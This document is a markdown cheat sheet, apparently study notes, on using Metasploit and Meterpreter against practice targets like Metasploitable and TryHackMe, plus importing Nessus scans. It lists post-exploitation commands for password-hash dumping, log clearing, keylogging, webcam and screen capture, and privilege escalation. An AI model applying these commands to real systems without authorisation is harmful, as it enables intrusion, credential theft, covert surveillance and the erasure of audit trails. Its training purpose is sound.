

# metasploit

<hr class="sl">

## Introduction

<div class="row row-cols-md-2"><div>

The [Metasploit Framework](https://github.com/rapid7/metasploit-framework) is a penetration testing framework that you can use to test your systems.

If you want to test your skills, download the Vulnerable OS [Metasploit 2](https://docs.rapid7.com/metasploit/metasploitable-2/), or [Metasploit3](https://github.com/rapid7/metasploitable3). You can install it on a VM.

* **Username**: `msfadmin`. **Password**: `msfadmin`
* Before the keyword is using QWERTY. You can swap once logged (`sudo loadkeys fr`).

> A great reference is [metasploit-unleashed](https://www.offensive-security.com/metasploit-unleashed/).

</div><div>

Metasploit is divided into modules

* **Encoders**
* **Evasion**
* **Exploits**
* **NOPs**
* **Payloads** <small>(single/inline, and not inline)</small>: how the framework will send data
* **Post**: scripts to start the meterpreter, or convenient functions such as `hashdump`.

> **Auxiliary** can be used to check if an exploit can be used on a target. They are not always an auxiliary.
</div></div>

<hr class="sr">

## msfconsole

<div class="row row-cols-md-2"><div>

This is a console in which you can search an exploit, test if the target is vulnerable, and use the exploit on the target.

Start the console

```bash
$ msfconsole -q
msf6 >
```

Search an exploit. It returns a list of modules, with an index, and a name, that can be "used" later.

```bash
msf6 > search word1 word2 # simple search for words in name/description
msf6 > search service # ex: apache, ftp...
msf6 > search module # ex: exploit/windows/http/xxx
msf6 > search CVE-YEAR-ID
msf6 > search type:auxiliary # search auxiliaries
msf6 > search platform:... 
msf6 > search search cve:2010-2025
```
</div><div>

Use an exploit

```bash
msf6 > use module_name # ex: exploit/windows/http/xxx
msf6 > use module_index # ex: 0
```

See the options required by the module. Find properties marked "required", but with no default value.

```bash
msf6 exploit('module_used') > options
msf6 exploit('module_used') > show options # same
# set an option
msf6 exploit('module_used') > set <option> <value>
```

<details class="details-e">
<summary>Usual modules options</summary>

* `set LHOST <value>`: ip of the attacker
* `set RHOST(s) <value>`: ips of the defenders
* `set RPORT <value>`: port of the defender
* `set TARGETURI <value>`: an URI (ex: location to a script)
* `set use <module>`: use another module
* `set PAYLOAD <value>`: use another module
</details>

Once ou filled everything you need to, run the exploit. If you were successful, a meterpreter will be created allowing you to access a short of enhanced <small>(with more features)</small> shell of the target.

```bash
msf6 exploit('module_used') > run
msf6 exploit('module_used') > exploit # same
# ...
# if you were successful
meterpreter >
```
</div></div>

> **TryHackMe note**: you need to start the VPN on the host, and use `set LHOST tun0`, or the correct network interface used by the VPN.

<br><br>

📌 Advanced usage 📌

<div class="row row-cols-md-2"><div>

You can ask for "help"

```bash
msf6 exploit('module_used') > help set
```

You can see the history of the command you used

```bash
msf6 exploit('module_used') > history
```

If you don't plan to use an exploit, you can go back

```bash
msf6 exploit('module_used') > back
msf6 > 
```

You can check if an exploit is available before running it. It will only work if there is an auxiliary for this exploit.

```bash
msf6 exploit('module_used') > check
```

You can request info about an exploit/...

```bash
msf6 > info module_name # ex: exploit/windows/http/xxx
msf6 > info module_index # ex: 0
```
</div><div>

If you want to unset a variable, or all variables...

```bash
msf6 exploit('module_used') > unset RHOSTS
msf6 exploit('module_used') > unset all
# even if you go back, every module with have
# this value for RHOSTS, unless, you use unset
msf6 exploit('module_used') > setg RHOSTS xxx
```

See, and use another payload

```bash
msf6 > show payloads
msf6 > set payload 1
msf6 > set payload payload_name
```

You may send a command to the background with `CTRL-Z`, or using `background`. You can use `sessions` to see your sessions, and `sessions -i <sid>` to move a session to the foreground.

```bash
meterpreter > background
msf6 exploit('module_used') > sessions
msf6 exploit('module_used') > sessions -i 1
```
</div></div>

<hr class="sl">

## Meterpreter on Windows

<div class="row row-cols-md-2"><div>

You can use many Linux commands

```bash
meterpreter > ls # list files
meterpreter > cd # move
meterpreter > pwd # path to current folder
meterpreter > cat file # print file
meterpreter > edit file # open file in vim
meterpreter > ps # see running processes
meterpreter > exit
```

And there are quite a lof of useful "post" modules

```bash
meterpreter > sysinfo
# Use the build xxx to find exploits
# Use the architecture to find if there are compatible...
# ...
# Computer        : XXX-PC
# OS              : Windows X (... Build xxx...).
# Architecture    : x64
# System Language : en_US
# Domain          : WORKGROUP
# Logged On Users : 2
# Meterpreter     : x86/windows
meterpreter > getuid
# NT... means that you're an admin
# Server username: NT AUTHORITY\SYSTEM
meterpreter > getprivs
# see your privileges
meterpreter > shell # start a shell
# you can run commands
# C:\WINDOWS\system32> whoami
# C:\WINDOWS\system32> systeminfo
meterpreter > run post/multi/recon/local_exploit_suggester
# suggest exploits
# this doesn't work well on x64
```
</div><div>

Once you are admin

```bash
meterpreter > getsystem
meterpreter > hashdump # dump usernames/password...
# try to bruteforce NTML with john format=nt
meterpreter > clearev # clean logs
```

Other commands

```bash
meterpreter > idletime # time the host was idle
meterpreter > ipconfig # network information
meterpreter > search -f pattern # search file by pattern
meterpreter > search -f pattern from* # ... inside given directories
meterpreter > download c:\\path # download to your machine
meterpreter > upload local_file c:\\path # upload
```

<details class="details-e mt-4">
<summary>Load a file with commands</summary>

You can use resources to load a resource on the target

```bash
meterpreter > lpwd
# local path
meterpreter > lcd path
# move to path (local)
meterpreter > resource file.txt # with commands inside
```
</details>

<details class="details-e">
<summary>Take control of the webcam</summary>

```bash
meterpreter > webcam_list
meterpreter > webcam_snap
```
</details>

<details class="details-e">
<summary>Take a screenshot</summary>

```bash
meterpreter > ps # find explorer.exe
[...]
1908 1284  explorer.exe [...]
[...]
meterpreter > migrate 1908
meterpreter > use espia
meterpreter > screengrab
```
</details>

<details class="details-e">
<summary>Install a key logger</summary>

```bash
meterpreter > ps # find explorer.exe
[...]
1908 1284  explorer.exe [...]
[...]
meterpreter > migrate 1908
meterpreter > keyscan_start # start
meterpreter > keyscan_dump # dump keys
```
</details>

Note: you can use `sessions sid` in the meterpreter, which is like `sessions -i sid` in the msfconsole.
</div></div>

<hr class="sr">

## msfconsole, and nessus

<div class="row row-cols-md-2"><div>

To be honest, it was way more useful to explore results in nessus web interface, but if you don't have one, then this is surely something useful.



First, start a msf database

```bash
$ sudo systemctl start postgresql
$ sudo msfdb init
# I got some errors, but it still works
```

Then in your msfconsole

```bash
$ msfconsole -q
msf6 > db_status # check if connected
[*] Connected to msf. Connection type: postgresql.
```
</div><div>

Everything below is coming from [this tutorial](https://scubarda.com/2015/11/16/launching-nessus-scans-inside-metasploit/), but metasploit unleashed has also [some tips](https://www.offensive-security.com/metasploit-unleashed/working-with-nessus/).

```bash
msf6 > load nessus
# Connect
msf6 > nessus_connect user:pass@localhost:8834
# List the scans that you did
msf6 > nessus_scan_list
# Import the result of a scan
msf6 > nessus_db_import id_you_found_in_the_list
```

Once you did, there a few commands you can use

* `services`: see what services the target run
* `vulns`: see vulnerabilities
* `vulns -s ftp`: see ftp vulnerabilities
* `vulns -S keyword`: see vulnerabilities including keyword
* `search cve:2010-2075`: search CVE

Then, process as usual.
</div></div>